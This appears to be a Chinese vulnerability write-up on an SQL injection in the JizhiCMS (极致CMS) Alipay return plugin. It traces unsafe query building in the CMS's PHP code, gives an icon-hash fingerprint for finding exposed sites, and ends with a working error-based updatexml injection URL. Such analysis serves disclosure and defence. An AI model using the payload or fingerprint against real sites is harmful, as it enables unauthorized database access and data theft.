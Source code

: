 # 极致CMS alipay_return_pay SQL注入漏洞

## 漏洞描述

极致CMS支付插件中存在SQL注入漏洞，通过漏洞可以获取数据库信息 

## 漏洞影响

<a-checkbox checked>极致CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1657387632"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1633500278668-c9cbbe05-5213-4454-a608-5f5cbe1c9e1b.png)

查看一下进行过滤的函数



```php
/**
	参数过滤，格式化
**/
function format_param($value=null,$int=0){
	if($value==null){ return '';}
	switch ($int){
		case 0://整数
			return (int)$value;
		case 1://字符串
			$value=htmlspecialchars(trim($value), ENT_QUOTES);
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			
			return $value;
		case 2://数组
			if($value=='')return '';
			array_walk_recursive($value, "array_format");
			return $value;
		case 3://浮点
			return (float)$value;
		case 4:
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			return trim($value);
	}
}

//过滤XSS攻击
function SafeFilter(&$arr) 
{
   $ra=Array('/([\x00-\x08,\x0b-\x0c,\x0e-\x19])/','/script/','/javascript/','/vbscript/','/expression/','/applet/'
   ,'/meta/','/xml/','/blink/','/link/','/style/','/embed/','/object/','/frame/','/layer/','/title/','/bgsound/'
   ,'/base/','/onload/','/onunload/','/onchange/','/onsubmit/','/onreset/','/onselect/','/onblur/','/onfocus/',
   '/onabort/','/onkeydown/','/onkeypress/','/onkeyup/','/onclick/','/ondblclick/','/onmousedown/','/onmousemove/'
   ,'/onmouseout/','/onmouseover/','/onmouseup/','/onunload/');
     
   if (is_array($arr))
   {
     foreach ($arr as $key => $value) 
     {
        if (!is_array($value))
        {
            if(version_compare(PHP_VERSION,'7.4','>=')){
				$value  = addslashes($value); 
			}else{
				if (!get_magic_quotes_gpc()){
					$value  = addslashes($value); 
				}
			}
          $value = preg_replace($ra,'',$value);     //删除非打印字符，粗暴式过滤xss可疑字符串
          $arr[$key]     = htmlentities(strip_tags($value)); //去除 HTML 和 PHP 标记并转换为 HTML 实体
        }
        else
        {
          SafeFilter($arr[$key]);
        }
     }
   }
}
```



看一下执行的SQL语句的函数



```php
 // 查询一条
    public function find($where=null,$order=null,$fields=null,$limit=1)
    {
	   if( $record = $this->findAll($where, $order, $fields, 1) ){
			return array_pop($record);
		}else{
			return FALSE;
		}
    }
```



跟进 findAll 函数



```php
// 查询所有
    public function findAll($conditions=null,$order=null,$fields=null,$limit=null)
    {
		$where = '';
		if(is_array($conditions)){
			$join = array();
			foreach( $conditions as $key => $value ){
				$value =  '\''.$value.'\'';
				$join[] = "{$key} = {$value}";
			}
			$where = "WHERE ".join(" AND ",$join);
		}else{
			if(null != $conditions)$where = "WHERE ".$conditions;
		}
      if(is_array($order)){
       		$where .= ' ORDER BY ';
            $where .= implode(',', $order);
      }else{
         if($order!=null)$where .= " ORDER BY  ".$order;
      }
		
		if(!empty($limit))$where .= " LIMIT {$limit}";
		$fields = empty($fields) ? "*" : $fields;
 
		$sql = "SELECT {$fields} FROM {$this->table} {$where}";
		
        return $this->getData($sql);
 
    }
```



在跟进一下getData函数



```php
//获取数据
	public function getData($sql)
	{
		if(!$result = $this->query($sql))return array();
		if(!$this->Statement->rowCount())return array();
		$rows = array();
		while($rows[] = $this->Statement->fetch(PDO::FETCH_ASSOC)){}
		$this->Statement=null;
		array_pop($rows);
		return $rows;
	}
```



跟进query执行函数



```php
//执行SQL语句并检查是否错误
	public function query($sql){
		$this->filter[] = $sql;
        $this->Statement = $this->pdo->query($sql);
        if ($this->Statement) {
			return $this;
        }else{
			$msg = $this->pdo->errorInfo();
			if($msg[2]) exit('数据库错误：' . $msg[2] . end($this->filter));
		}
	}
```



- ✅看到`$msg = $this->pdo->errorInfo();`语句，也就是说会把数据库报错信息打印在页面上并显示出来并退出
- ✅一套分析下来没有发现对sql语句的过滤，如果得到的数据没有经过`format_param`过滤，会产生注入



例如:

```php
function exploit(){
    M('member')->find(['username'=>$_GET['name']]);
}
```

如果直接这样GET POST REQUEST 带入数据库 会产生报错注入

例如  ./exploit/name=123'  (加一个引号会报错，如果引号没过滤)

现在只需要寻找类型是这样没过滤直接带入数据库的语句就行了

简单寻找下其实这样的地方挺多的，拿一个位置举例子

![img](../../../.vuepress/public/img/jizhi-5.jpg)



这里是一个支付插件的位置，蓝色方块1增加代码模拟开通支付宝功能通过验证



可以看到这个函数只使用[htmlspecialchars]来过滤了xss，sql语句没有过滤，用刚刚的方法来注入



![img](../../../.vuepress/public/img/jizhi-6.jpg)



可以看到的确出现了sql语句和数据库错误,直接报错注入获取敏感信息

`mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(select version()),0x7e),1)--+"`

![image-20220313235238670](../../../.vuepress/public/img/image-20220313235238670.png)